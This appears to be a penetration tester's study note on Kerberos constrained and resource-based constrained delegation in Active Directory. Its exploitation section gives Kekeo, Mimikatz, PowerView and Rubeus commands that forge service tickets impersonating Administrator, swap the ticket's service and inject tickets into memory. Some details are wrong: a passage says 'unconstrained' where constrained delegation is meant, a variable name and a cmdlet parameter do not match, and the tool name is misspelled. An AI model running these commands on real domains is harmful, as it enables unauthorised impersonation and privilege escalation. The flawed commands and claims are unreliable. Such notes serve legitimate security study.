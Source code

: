 #kekeo #mimikatz #powershell 
- [[#Unconstrained Delegation]] is dangerous, as it allows services to impersonate user and access any service.
- S4U restricts this and only allows delegation to certain services.
	- Service for User to Proxy (S4U2Proxy)
	- Service for User to Self (S4U2Self)
- No TGT is required in this extention.
### S4U2Self
- Kerberos delegation when the client does not support Kerberos protocol. (Protocol Transition)
- In this scenario, the service which has the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` flag set, can request a TGS for the another service for the user. 
### S4U2Proxy
This extension allows a service to request another service on behalf of the user by using `ST` instead of `TGT`.
The service can only ask for impersonation `ST` for certain services defined in one of the following ways:
- **Classic Constrained Delegation**: `msDS-AllowedToDelegateTo` attribute of the service account. It contains [[Active Directory/AD Concepts/Services#SPN|SPN]] of the services for which the service account can ask ST for. To edit this parameter, `SeEnableDelegationPrivilege` priv is required.
- **Resource Based Constrained Delegation**: The service account is mentioned in the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the target service for which the service account will ask ST for.
---
Constrained Delegation works in one of the two ways:
- S4U2Proxy (`TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION`) + S4U2Self (Classic Constrained Delegation) (`msDS-AllowedToDelegateTo`)
	- The compromised user/machine account should have the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` in the UAC, and the service for delegation should be mentioned in the `msDS-AllowedToDelegateTo` attribute of the compromised user/machine.
- S4U2Self (Resource Based Constrained Delegation) (`msDS-AllowedToActOnBehalfOfOtherIdentity`)
	- This moves the delegation authority to the the service/resource owner, instead of the administrator. Or in fact any user, having `Full` or `GenericWrite` over the target service.
	- The service account that can request ST should be mentioned in the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the delegated service's service account.
# Exploitation
## Classic Constrained Delegation
Classing Constrained Delegation involves compromising a account with `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` and some SPNs in `msDS-AllowedToDelegateTo` attribute. We can simply tell the compromised user/computer account to ask for ST for the service mentioned in the `msDS-AllowedToDelegateTo`.
### Enumeration
- Enumerating users and computers which constrained delegation enabled using
- Powerview:
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
- Active Directory Module
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDeleagateTo
```
- Kekeo
```powershell
kekeo tgt::ask /user:svcIIS /domain:mydomain.local /password:Qwer1234.
# this will save the TGT file to the disk
# use this TGT to request TGS for the delegated service
kekeo tgs::s4u /tgt:<tgt_file> /user:<user_to_inpersonate> /service:<service_allowed_to_delegate_to>
# this will save the TGS to the disk
# we can load this ticket it memory
mimikatz kerberos::ptt <ticket_file>
```
- Rubeus
```powershell
# This will use the TGT of websvc to ask for ST of impersonator user to access the msdss delegated service, and inject the ticket in memory
.\rubues.exe s4u /user:<username> /aes256:<aesKey> /impersonateuser:Aministrator /msdsspn:CIFS/sqlserver.domain.local /ptt
```
> unconstrained delegation performs no validation for the service mentioned in the `msDS-AllowedToDelegateTo`, hence, we can request the ST for the intended service and modify the ticket for another service. We can the add the `/altservice:<protocol>` to rubeus to modify the service ticket. Hence, the below command will request ST for the `msdsspn` account and modify the service.
```powershell
.\rubues.exe s4u /user:<username> /aes256:<aesKey> /impersonateuser:Aministrator /msdsspn:CIFS/sqlserver.domain.local /ptt /altservice:ldap
```
## RBCD
RBCD exploitation Involves having write access to an object that we want to exploit.
- Set up RBCD attribute on the target service.
- Using AD Module
```powershell
# We should already have local admin access on the computer1 account.
$compputers = "mycomputer$";
Set-ADComputer -Identity targetcomputer -PrincipalsAllowedToDelegateTo $computers;
```
- Powerview
```powershell
# Set RBCD delegation
Set-DomainRBCD -Identity targetcomputer -DelegateFrom 'mycomputer$';
# We can verify the same using
Get-DomainRBCD
```
- We can now use the same s4u module from rubeus to impersonate a user
```powershell
.\rubues.exe s4u /user:<username> /aes256:<aesKey> /impersonateuser:Aministrator /msdsspn:CIFS/sqlserver.domain.local /ptt
```
